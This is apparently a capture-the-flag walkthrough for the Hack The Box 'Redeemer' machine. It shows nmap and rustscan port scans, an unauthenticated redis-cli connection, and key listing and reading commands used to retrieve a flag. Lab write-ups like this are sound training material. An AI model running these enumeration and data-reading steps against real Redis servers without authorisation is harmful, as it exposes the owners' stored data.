 #  Redis Exploitation Steps

These steps outline how to enumerate and exploit an open Redis service (e.g., on a box like HTB Redeemer) to retrieve sensitive data like flags.

---

##  1. Scan the Target

Use `nmap`/ `rustscan` to scan all ports and detect running services:

```bash
nmap -sV -p- -T4 10.129.246.74
````
```bash
rustscan -a 10.129.246.74
````

---

##  2. Connect to Redis

If port `6379` is open (default Redis port), connect to the Redis server:

```bash
redis-cli -h 10.129.246.74
```

---

##  3. List Available Keys

Once connected to the Redis CLI, list all keys in the current database:

```redis
KEYS *
```

You might see something like:

```
1) "flag"
2) "stor"
3) "numb"
4) "temp"
```

---

##  4. Retrieve the Flag

Assuming `flag` is a string key:

```redis
GET flag
```

This should return something like:

```
"HTB{your_flag_here}"
```

---

##  Notes

* If `GET flag` gives a WRONGTYPE error, check the key type:

  ```redis
  TYPE flag
  ```

* Then use the correct command:

  | Type   | Command                       |
  | ------ | ----------------------------- |
  | string | `GET flag`                    |
  | list   | `LRANGE flag 0 -1`            |
  | set    | `SMEMBERS flag`               |
  | hash   | `HGETALL flag`                |
  | zset   | `ZRANGE flag 0 -1 WITHSCORES` |


